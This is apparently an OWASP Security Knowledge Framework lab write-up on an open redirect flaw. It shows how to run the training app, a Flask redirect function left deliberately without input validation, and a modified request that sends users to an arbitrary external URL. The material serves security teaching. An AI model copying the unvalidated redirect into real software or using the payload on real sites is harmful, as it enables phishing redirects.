 # KBID 67 - Open Redirect

## Running the app

```
$ docker pull blabla1337/owasp-skf-lab:url-redirection
```

```
$ docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:url-redirection
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Running the app Python3

First, make sure python3 and pip are installed on your host machine. After installation, we go to the folder of the lab we want to practise "i.e /skf-labs/XSS/, /skf-labs/jwt-secret/ " and run the following commands:

```
$ pip3 install -r requirements.txt
```

```
$ python3 <labname>
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker Image and write-up thanks to ContraHack!](../../.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

### Step 1

The application shows that there is a new version of the website available somewhere, and a click on the button "Go to new website" will redirect you to it.

If we click on the button we will be redirected on the new page [http://localhost:5000/newsite](http://localhost:5000/newsite)

### Step 2

Intercepting the traffic generated by the application, we note that the redirection is performed using the following call

```
GET /redirect?newurl=newsite
```

that will generate a 302 Redirect response from the server.

Inspecting the source code, it's possible to see no input validation of _newurl_ query string parameter is in place.

```python
def redirector():
    landing_page = request.args.get('newurl')
    return redirect(landing_page, 302)
```

## Exploitation

The exploitation is pretty straightforward. Replay the redirection request, but at this time change the value of _newurl_ into another URL.

_Original request_

```
http://localhost:5000/redirect?newurl=newsite
```

_Modified request_

```
http://localhost:5000/redirect?newurl=https://google.com
```

Using the payload above we will be able to successfully redirect a user to a malicious website

## Additional sources

- [https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect\_(OTG-CLIENT-004)](<https://www.owasp.org/index.php/Testing_for_Client_Side_URL_Redirect_(OTG-CLIENT-004)>)
